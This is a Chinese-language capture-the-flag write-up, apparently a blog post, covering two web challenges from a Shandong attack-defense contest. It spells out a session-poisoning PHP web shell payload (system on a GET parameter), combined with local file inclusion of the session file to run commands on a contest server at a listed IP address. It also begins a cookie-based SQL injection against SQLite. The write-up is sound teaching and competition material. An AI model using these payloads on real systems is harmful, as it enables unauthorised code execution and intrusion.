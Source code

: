 ```yaml
---
layout: post
title: 山东省新一代攻防赛wp
---
```


> 地点：聊城职业学院 ， u1s1门口的小摊挺多的（哧溜～) 

![1](https://tva1.sinaimg.cn/large/0081Kckwly1gl0bqccqiaj30u00u04qp.jpg)

# web

## web1 （反正就是有很多页面，你能发现其中的关键信息吗？）

知识点（细心最重要！尽量每个操作都要抓包分析）

- 信息收集
- 文件包含
- 代码审计
- session特性

打开题目，只有一个登录表单

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ktzlbxj30tc16eaz7.jpg" alt="image-20201124101408979" style="zoom: 33%;" />

二话不说，直接dirsearch一波

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01ntxh1vj315b0u0aux.jpg" alt="image-20201124101705278"  />

/php.php 是个phpinfo

访问`/register.php`注册个账户去登录，登录处抓包

<img src="https://tva1.sinaimg.cn/large/0081Kckwly1gl01vv26xrj31ye0q2qbz.jpg" alt="image-20201124102449438"  />

后面简单测了测发现登录处过滤了单引号，sql注入是不行了，继续往下跟

![image-20201124102851131](https://tva1.sinaimg.cn/large/0081Kckwly1gl0202hdpaj32iw0mo1a8.jpg)

发现好像进入了后台界面，同时发现了hint

​	`<!--hint: m4nageee.php-->`

但是这还是个302跳转包，跳到了`/user.php?page=guest` 可见程序对登录用户做了判断。

简单测了下`page`参数发现有任意文件包含

![image-20201124103737192](https://tva1.sinaimg.cn/large/0081Kckwly1gl0296n5ofj31uo0p2n6l.jpg)

包含m4nageee.php，发现后台有个表单

![image-20201124111402262](https://tva1.sinaimg.cn/large/0081Kckwly1gl03b2hmdvj30s40nqgpa.jpg)

于是读`m4nageee.php`

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/profile233.html";

?>
```

访问`templates/profile233.html`查看源代码

![image-20201124110331496](https://tva1.sinaimg.cn/large/0081Kckwly1gl0304hz6nj30m40a6ac1.jpg)

看到了这段代码就懂了，解释一下：

如果`nick`参数为空，就把`nick`的值赋给`session`的`nick`的值，众所周知，`session`是存储在服务器端的

而且`nick`的值没有做过滤，所以当`session`可控时，就可以传入恶意代码

构造payload

```php
http://47.105.128.249:36001/user.php?nick=<?php @system($_GET[c]);?>&page=m4nageee
```

session保存路径在之前发现的phpinfo文件可以查到

![image-20201124112704975](https://tva1.sinaimg.cn/large/0081Kckwly1gl03on7kkfj30g401at8q.jpg)

当前session

![image-20201124113029636](https://tva1.sinaimg.cn/large/0081Kckwly1gl03s6pv4dj30e005emxh.jpg)

包含session文件，getshell

```
http://47.105.128.249:36001/user.php?page=../../../var/lib/php5/sess_90qqo7oj3p9ca8jdsousbk8ld0&c=cat fl*
```



![image-20201124114630721](https://tva1.sinaimg.cn/large/0081Kckwly1gl048um28xj31h407kgnl.jpg)

`flag{c785407bfa1c768e50373480ad5c2765}`

## web2

知识点

- 信息收集
- header头注入

![image-20201130104507991](https://tva1.sinaimg.cn/large/0081Kckwly1gl706wedckj30yg0owt9x.jpg)

burp抓包登录（简单的测试了下username和password并无sql注入）

![image-20201130104649869](https://tva1.sinaimg.cn/large/0081Kckwly1gl708mik27j31gy0u0nkg.jpg)

源代码中发现`test:test`用户密码，尝试登录

![image-20201130104850253](https://tva1.sinaimg.cn/large/0081Kckwly1gl70asbhclj31gy0u07pz.jpg)

这里发现response返回包中设置了cookie：

```
username=test
password=test
```

简单的测了下，发现是sqlite数据库